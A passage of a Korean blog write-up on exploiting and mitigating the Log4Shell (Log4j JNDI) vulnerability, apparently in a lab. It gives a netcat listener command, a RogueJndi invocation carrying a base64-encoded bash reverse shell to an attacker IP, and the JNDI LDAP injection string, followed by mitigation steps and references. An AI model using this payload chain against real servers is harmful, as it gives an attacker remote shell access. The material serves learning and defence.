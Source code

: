local에서 4444번 포트를 Listen하는 NC를 열어둔다.

```
nc -lvnp 4444
```

다음 명령어에 이전에 만들었던 base64와 Host IP를 넣는다.

```
sudo java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTA4LzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.108"
```

명령어를 실행한 후 `${jndi:ldap://10.10.14.108:1389/o=tomcat}` Payload를 입력하여 요청을 보내면 맨 아래 Sending~문구가 발생할 것이다.

![Untitled](/images/20220901/Untitled%2013.png)

nc를 실행하고 있는 터미널을 확인하면 연결된 것을 확인 할 수 있다.

![Untitled](/images/20220901/Untitled%2014.png)

## Mitigation

- ~~2.15.0 Version으로 업그레이드 - 가장 안전한 방법~~ → 생각보다 안전하지 않았던걸로... 해당 버전에서 취약점이 다시 발생하여, 2.16.0으로 업그레이드를 추천한다.
- 'formatMsgNoLookups' 프로퍼티는 2.10.0 버전 이후에 추가되었으므로 해당 값을 'true'로 설정하면 된다. (2.10.0 버전 이후 - formatMsgNoLookups=true, 2.15.0 이후로는 Default로 설정되어 있다.)
- 만약 업그레이드가 불가능하다면 아래의 2가지 방법이 존재한다.
    1. 모든 로깅패턴을 `%m` 대신에 `%m{nolookups}` 으로 번경하는 방법이다. (버전 2.7 이상)
    2. 'org.apache.logging.log4j.core.lookup.JndiLookup' class를 취약하지 않는 버전 혹은 비어있는 파일로 번경. (다소 힘들어 보임)
- JNDI Patch를 코드레벨에서 하여 JNDI를 일시적으로 비활성화한다. (참고 : [https://news.ycombinator.com/item?id=29507263](https://news.ycombinator.com/item?id=29507263))
    - Log4JHotPatch라는 툴을 사용하여 가능 (참고 : [https://github.com/corretto/hotpatch-for-apache-log4j2](https://github.com/corretto/hotpatch-for-apache-log4j2))
    - 일시적인 Mitigation Method다.

![Untitled](/images/20220901/Untitled%2015.png)

## 참고

### Naming & Directory System

- [https://docs.oracle.com/javase/tutorial/jndi/concepts/index.html](https://docs.oracle.com/javase/tutorial/jndi/concepts/index.html)
- [https://docs.oracle.com/javase/tutorial/jndi/concepts/directory.html](https://docs.oracle.com/javase/tutorial/jndi/concepts/directory.html)
- [https://docs.oracle.com/cd/E19683-01/816-4856/6mb1q0bgc/index.html](https://docs.oracle.com/cd/E19683-01/816-4856/6mb1q0bgc/index.html)
- [https://en.wikipedia.org/wiki/Directory_service](https://en.wikipedia.org/wiki/Directory_service)
- [http://egloos.zum.com/gunsystems/v/6785259](http://egloos.zum.com/gunsystems/v/6785259)
- [https://www.netinbag.com/ko/internet/what-is-a-directory-service.html](https://www.netinbag.com/ko/internet/what-is-a-directory-service.html)
